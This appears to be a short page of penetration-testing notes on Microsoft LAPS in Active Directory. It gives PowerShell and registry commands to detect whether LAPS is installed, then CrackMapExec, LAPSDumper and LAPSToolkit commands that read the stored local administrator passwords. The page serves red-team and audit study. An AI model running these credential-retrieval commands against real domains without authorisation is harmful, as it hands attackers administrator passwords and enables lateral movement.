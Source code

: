 # Local Administrator Password Solution (LAPS)

Microsoft LAPS provides automated local administrator account management for every computer in Active Directory. The client-side piece of LAPS on the computer generates a random secure password and stores it in the AD attribute for the computer password. This is considered secure and mitigates an attacker passing the local administrator hash throughout the domain.

### Enumerating LAPS

```powershell
# Using the cmdlet Get-ADObject
Get-ADObject 'CN=mc-mcs-admpwd,CN=Schema,CN=Configuration,DC=dc,DC=parzival,DC=com' 

# Check if the DLL is installed locally
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
dir "C:\Program Files\LAPS\CSE"

# Checking registry
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
```

### Retrieving LAPS Passwords

```bash
# Retrieve password using CrackMapExec
cme ldap $dc -u $username -p $password -M laps

# https://github.com/n00py/LAPSDumper
python laps.py -u $username -p $password -d $domain

# https://github.com/leoloobeek/LAPSToolkit
Get-LAPSComputers
```

### References

{% embed url="https://adsecurity.org/?p=1790" %}
